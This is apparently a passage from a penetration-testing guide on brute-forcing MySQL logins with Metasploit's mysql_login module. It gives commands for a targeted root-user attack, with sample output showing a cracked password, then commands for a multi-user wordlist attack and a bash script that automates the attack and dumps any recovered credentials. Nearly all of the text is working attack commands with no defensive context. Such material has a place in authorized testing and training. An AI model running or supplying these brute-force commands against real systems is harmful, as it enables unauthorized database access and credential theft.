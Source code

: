### Targeted Root User Brute Force

```bash
# Target root user specifically
msf6 auxiliary(scanner/mysql/mysql_login) > set USERNAME root
msf6 auxiliary(scanner/mysql/mysql_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf6 auxiliary(scanner/mysql/mysql_login) > set STOP_ON_SUCCESS true
msf6 auxiliary(scanner/mysql/mysql_login) > set VERBOSE false
msf6 auxiliary(scanner/mysql/mysql_login) > run

[+] 192.168.1.100:3306 - Success: 'root:twinkle'
[*] Scanned 1 of 1 hosts (100% complete)
```

### Multi-User Brute Force

```bash
# Brute force multiple users
msf6 auxiliary(scanner/mysql/mysql_login) > unset USERNAME
msf6 auxiliary(scanner/mysql/mysql_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf6 auxiliary(scanner/mysql/mysql_login) > set USER_AS_PASS true
msf6 auxiliary(scanner/mysql/mysql_login) > set BLANK_PASSWORDS true
msf6 auxiliary(scanner/mysql/mysql_login) > run
```

### Advanced Brute Force Script

```bash
#!/bin/bash

TARGET=$1
USER_LIST=${2:-"root"}  # Default to root user
PASS_LIST=${3:-"/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt"}

echo "[*] Starting MySQL brute force attack"
echo "[*] Target: $TARGET"
echo "[*] User: $USER_LIST"
echo "[*] Password list: $PASS_LIST"

msfconsole -q -x "
workspace -a mysql_brute_force;
setg RHOSTS $TARGET;
use auxiliary/scanner/mysql/mysql_login;
set USERNAME $USER_LIST;
set PASS_FILE $PASS_LIST;
set STOP_ON_SUCCESS true;
set THREADS 5;
set VERBOSE false;
run;
credentials;
exit"
```
